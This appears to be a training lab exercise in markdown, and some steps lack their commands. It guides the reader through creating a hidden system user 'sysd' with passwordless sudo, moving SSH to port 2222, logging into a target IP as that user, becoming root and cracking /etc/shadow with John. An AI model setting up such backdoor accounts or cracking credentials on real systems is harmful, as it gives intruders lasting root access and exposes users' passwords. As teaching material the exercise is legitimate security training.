

## Advanced Bash - Owning the System

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `useradd -M sysd`

2. Give your secret user a password: 
    - `passwd sysd`

3. Give your secret user a system UID < 1000:
    - `usermod -u 888 sysd`

4. Give your secret user the same GID:
   - `groupmod -g 888 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `visudo` 

 
 

    
- `sudo -k` to clear existing password cache.
 
 

6. Test that `sudo` access works without your password:

 

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

 

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `sudo service sshd restart`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:

4. Use `sudo` to switch to the root user:

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `ssh sysd@192.168.6.105 -p 2222`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

---

